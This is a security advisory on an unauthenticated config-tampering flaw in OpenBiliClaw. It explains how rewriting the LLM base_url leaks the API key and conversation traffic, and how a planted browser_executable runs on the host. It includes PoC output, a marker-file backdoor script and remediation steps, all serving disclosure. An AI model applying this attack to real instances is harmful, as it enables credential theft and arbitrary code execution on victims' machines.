

# Unauthenticated Configuration Tampering in OpenBiliClaw Enables LLM Traffic Hijacking and an Arbitrary-Process Backdoor

| Field | Value |
|---|---|
| Project | [whiteguo233/OpenBiliClaw](https://github.com/whiteguo233/OpenBiliClaw) |
| Vulnerability Type | Improper Input Validation leading to Code Injection / Credential Exposure (CWE-94, CWE-306) |
| Severity | Critical — CVSS 3.1 Base Score: 9.8 |
| CVSS Vector | `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |
| Affected Versions | <= 0.3.228 (verified on 0.3.228, latest release as of 2026-10-14; commit `94c2b28`) |
| Authentication | None |

---

## Summary

With the default deployment posture (API on `0.0.0.0:8420`, password gate disabled), `PUT /api/config` accepts configuration changes from any network peer with no authentication and no validation of two dangerous fields:

1. `llm.instances.<id>.base_url` is assigned verbatim (`str()`), persisted to `config.toml`, and hot-applied. Every subsequent LLM request — carrying the victim's configured `api_key` in the `Authorization` header and the full conversation/content context — is sent to the attacker's endpoint. The change survives restarts, giving a persistent interception channel.
2. `bilibili.browser_executable` is assigned with no path restriction and is later executed by `BilibiliBrowser` via `subprocess.run([executable, "--version"])` whenever browser integration availability is probed. An attacker plants a backdoor path (including UNC paths on Windows, which additionally leak NTLMv2 hashes during the `Path.is_file()` probe) that executes on the victim host.

## Details

`src/openbiliclaw/api/app.py` (0.3.228) — the config update route takes partial updates, persists them, and hot-reloads:

```python
@app.put("/api/config", response_model=ConfigUpdateResponse)
async def update_config(request: Request, payload: ConfigUpdateIn) -> ConfigUpdateResponse:
    """Update configuration, persist to config.toml, and hot-reload runtime.

    Only the fields included in the request body are modified.
    ...
```

The browser executable field is copied without any allowlist (lines 22320-22321):

```python
if "browser_executable" in bdata:
    cfg.bilibili.browser_executable = str(bdata["browser_executable"])
```

and consumed by `src/openbiliclaw/bilibili/browser.py` (lines 70-91) on the next availability probe:

```python
@staticmethod
def _has_executable(executable: str) -> bool:
    executable_path = Path(executable)
    ...
    result = subprocess.run([executable, "--version"], capture_output=True, ...)
```

The LLM instance `base_url` flows the same way into the OpenAI-compatible provider client, so chat traffic and the API key follow whatever URL the attacker wrote. Combined with the default-off auth gate (`src/openbiliclaw/api/auth.py`, `auth_guard`: `if not gate.auth.enabled: return await call_next(request)`), both writes are reachable with zero credentials from any peer that can route to the port.

## PoC

Verified on release 0.3.228 (source tarball, commit `94c2b28`), started with the stock default configuration (`openbiliclaw serve-api --host 0.0.0.0 --port 8420`). The attacker's fake OpenAI-compatible endpoint runs in the same foreground PoC process as the client (`http.server` on `127.0.0.1:9912`); all HTTP uses Python urllib. The client connects through the host's LAN address, i.e. as a non-loopback peer.

**Step 1: rewrite LLM base_url and browser_executable with no credentials**

```bash
python3 poc_unauth_export_and_config_tamper.py   # sections [2]-[5]
```
```
-- [2] PUT /api/config (LLM base_url -> attacker relay, browser_executable -> backdoor) --
    HTTP 202 {"ok":true,"config":{...}}
    GET /api/config reflects tampered values: True

-- [5] tampered values persisted in config.toml: True
```

**Step 2: trigger one LLM call — the API key and conversation traffic arrive at the attacker endpoint**

```
-- [3] trigger an LLM call; watch the attacker relay --
    POST /api/chat -> HTTP 200 {"reply":"ok"}
    [VULN] attacker relay received POST /v1/chat/completions
    [VULN] Authorization header exfiltrated: 'Bearer sk-POC-DUMMY-KEY'  x-api-key: ''
```

**Step 3: the planted executable runs on the victim host**

```
-- [4] browser_executable backdoor triggered via `openbiliclaw browser status` --
    cli exit=0
    [VULN] marker file exists: backdoor-executed-0xgenesi
```

`/tmp/obc_backdoor` contained `#!/bin/sh; echo backdoor-executed-$(id -un) > /tmp/OBC_BACKDOOR_RAN; exit 0` — it executed when the browser-integration probe invoked `browser_executable --version`. On a real deployment the same probe runs from scheduled browser/content tasks, so no manual CLI action is needed.

**Step 4: negative control — with the password gate enabled (non-default), the tamper is rejected**

```
-- [6] negative control: restart backend with api.auth enabled --
    export without credentials -> HTTP 401 {"error":"auth_required"}
    [OK] blocked once the gate is enabled
```

**Real-environment reproduction** (the product itself, run for this test): the transcript above is a live run against the release 0.3.228 backend with default configuration; the tamper, hot-apply, traffic interception with credential-bearing header, victim-host process execution, and persistence to `config.toml` all reproduced. With `[api.auth] enabled = true` the same unauthenticated requests fail with 401.



---

## Impact

An unauthenticated network peer gains:

- **Persistent LLM traffic interception** — all conversations, browsing-history profiles, and recommendation analysis are sent to the attacker's server, together with the victim's LLM `api_key` (monetary theft of API quota included); the setting survives restarts
- **Arbitrary process execution on the victim host** whenever a browser integration task probes the planted `browser_executable` (on Windows, UNC-path probes also capture NTLMv2 credentials)
- **Trust-boundary destruction** — `api.auth.trusted_proxies` and the gate password itself can be rewritten, locking the legitimate user out of their own instance

### Remediation

1. Gate `PUT /api/config` (and all state-changing routes) behind authentication whenever the listener is reachable from beyond loopback; refuse to serve on `0.0.0.0` with the auth gate disabled.
2. Validate `bilibili.browser_executable` against an allowlist of known browser/chromium executables (or at minimum: absolute local path, existing binary, deny UNC/network paths), and never execute a value that was set by a remote peer.
3. Restrict `llm.instances.<id>.base_url` to https URLs (or hosts the local user explicitly configured), and require re-authentication for changing credential-bearing endpoints.
4. Audit the remaining unvalidated config fields reachable through the same route (`api.auth.*`, `network.proxy`) for equivalent abuse, and add regression tests covering unauthenticated PUT attempts.
